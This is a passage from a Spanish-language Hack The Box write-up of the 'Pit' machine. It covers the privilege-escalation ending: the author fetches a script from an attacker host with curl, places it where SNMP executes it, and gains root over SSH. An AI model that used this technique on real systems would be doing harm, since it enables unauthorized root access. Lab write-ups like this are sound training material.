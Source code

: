 Ahora, subimos el script, lo copiamos a la ruta y ejecutamos **snmpbulkwalk**:

```bash
[michelle@pit ~/testeando]$ curl http://10.10.14.146:8000/checkea.sh -o checkea.sh
[michelle@pit ~/testeando]$ chmod +x checkea.sh
[michelle@pit ~/testeando]$ cp checkea.sh /usr/local/monitoring/
[michelle@pit ~/testeando]$ ls -la /usr/local/monitoring/checkea.sh
-rwxrwxr-x. 1 michelle michelle 612 Jun 29 25:25 /usr/local/monitoring/checkea.sh
```

```bash
❱ snmpbulkwalk -v2c -c public 10.10.10.241 iso
```

No vemos ningún problema (al parecer):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346bash_snmpWalkbulk_ex_iso_scriptDone.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Intentamos ahora conectarnos por **SSH** pasándole nuestra llave privada como identificación:

```bash
❱ ssh root@10.10.10.241 -i ~/.ssh/id_rsa
```

Yyyyyyyyyyyyyyyyy...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346bash_monitor_ssh_rootDone.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

TAMOOOOOOOOOOOOOOOOOOOOOOS DENTROOOOOOOOO DE LA MÁQUINAAAAAAAAAAAAA COMOOOO **ROOOOOOT**!!

Veamos las flags...

![346flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346flags.png)

FIN!! NO VA MÁS!!

...

Dios, fue una máquina bastante, ihss, no sé, muy poco amigable jjaajaj, pero bueno, se aprendió, se hizo un lindo **script** y pensamos mucho lateralmente.

La parte del script (privesc) fue algo extraña. Lo que me gusto es que todo lo que encontramos se usó, así que bien ahí!!

Y bueno, nos leeremos en otros rincones de tu mente, descansa (de verdad) pero recuerda, a seguir ROMPIENDO todoooooooooooo!